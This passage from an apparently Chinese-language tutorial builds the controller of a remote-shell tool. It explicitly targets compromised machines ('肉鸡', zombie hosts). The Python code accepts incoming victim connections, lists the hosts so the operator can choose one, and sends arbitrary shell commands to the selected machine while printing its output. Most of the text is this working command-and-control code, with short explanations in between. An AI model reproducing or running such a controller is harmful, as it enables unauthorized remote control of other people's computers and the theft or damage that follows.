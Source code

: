 ```py
def wait_connect(sk):
    global clientList
    while not quitThread:
        if len(clientList) == 0:
            print('Waiting for the connection......')
        sock, addr = sk.accept()
        print('New client %s is connection!' % (addr[0]))
        lock.acquire()
        clientList.append((sock, addr))
        lock.release() 
```

当有多个肉机连接到控制端时，我们要记录肉机的 socket 对象，以便我们可以选择不同的操作对象，我们再来看一看是怎样实现选择已经连接的肉机，代码如下：

```py
clientList = []             #连接的客户端列表
curClient = None            #当前的客户端

def select_client():        #选择客户端
    global clientList
    global curClient

    for i in range(len(clientList)):    #输出已经连接到控制端的肉机地址
        print('[%i]-> %s' % (i, str(clientList[i][1][0])))
    print('Please select a client!')

    while True:
        num = input('client num:')      #等待输入一个待选择地址的序号
        if int(num) >= len(clientList):
            print('Please input a correct num!')
            continue
        else:
            break

    curClient = clientList[int(num)]    #将选择的 socket 对象存入 curClient 中 
```

通过记录已经连接肉鸡的 socket，并将选择的 socket 赋值给 curClient 就实现了多客户端的选择。 现在我们就可以实现命令的发送和接收了：

```py
def shell_ctrl(socket,addr):                #负责发送 Shell 命令和接收结果
    while True:
        com = input(str(addr[0]) + ':~#')   #等待输入命令
        if com == '!ch':                    #切换肉机命令
            select_client()
            return
        if com == '!q':                     #退出控制端命令
            exit(0)
        socket.send(com.encode('utf-8'))    #发送命令的字节码
        data = socket.recv(1024)            #接收反回的结果
        print(data.decode('utf-8'))         #输出结果 
```

这里有一点需要注意一下，这里我们对接收和发送统一都用`utf-8`进行编码和解码，同样在客户端中也采用同样的编码才会保证接收和发送的结果正确。至于发送命令这部分主要就是等待用户输入命令然后判断是不是切换肉鸡或者是退出命令，如果不是就把命令发送给客户端。到此我们的控制端基本的组成部分就实现完成了！
